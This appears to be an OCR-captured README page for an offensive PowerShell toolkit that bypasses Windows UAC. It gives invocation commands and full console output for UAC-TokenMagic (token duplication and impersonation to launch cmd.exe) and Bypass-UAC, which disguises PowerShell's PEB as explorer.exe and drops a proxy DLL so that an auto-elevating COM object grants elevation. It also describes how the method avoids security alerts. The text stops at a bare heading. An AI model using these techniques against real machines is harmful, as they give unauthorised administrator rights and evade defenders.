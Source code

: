 Targets:
7,8,8.1,10,10RS1,10RS2

```
C:\PS> UAC-TokenMagic -BinPath C:\Windows\System32\cmd.exe -Args "/c calc.exe" -ProcPID 1116

[*] Session is not elevated
[*] Successfully acquired regedit handle
[*] Opened process token
[*] Duplicated process token
[*] Initialized MedIL SID
[*] Lowered token mandatory IL
[*] Created restricted token
[*] Duplicated restricted token
[*] Successfully impersonated security context
[*] Magic..
```

### Bypass-UAC

Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into “explorer.exe”. This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL’s makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell’s PEB to give it the appearance of “explorer.exe”. This provides the same effect because COM objects exclusively rely on Windows’s Process Status API (PSAPI) which reads the process PEB.

```
C:\PS> Bypass-UAC -Method ucmDismMethod

[!] Impersonating explorer.exe!
[+] PebBaseAddress: 0x000007F73E93F000
[!] RtlEnterCriticalSection --> &Peb->FastPebLock
[>] Overwriting &Peb->ProcessParameters.ImagePathName: 0x000000569B5F1780
[>] Overwriting &Peb->ProcessParameters.CommandLine: 0x000000569B5F1790
[?] Traversing &Peb->Ldr->InLoadOrderModuleList doubly linked list
[>] Overwriting _LDR_DATA_TABLE_ENTRY.FullDllName: 0x000000569B5F2208
[>] Overwriting _LDR_DATA_TABLE_ENTRY.BaseDllName: 0x000000569B5F2218
[!] RtlLeaveCriticalSection --> &Peb->FastPebLock

[>] Dropping proxy dll..
[+] 64-bit Yamabiko: C:\Users\b33f\AppData\Local\Temp\yam1730961377.tmp
[>] Creating XML trigger: C:\Users\b33f\AppData\Local\Temp\pac500602004.xml
[>] Performing elevated IFileOperation::MoveItem operation..

[?] Executing PkgMgr..
[!] UAC artifact: C:\Windows\System32\dismcore.dll
[!] UAC artifact: C:\Users\b33f\AppData\Local\Temp\pac500602004.xml
```

### Masquerade-PEB

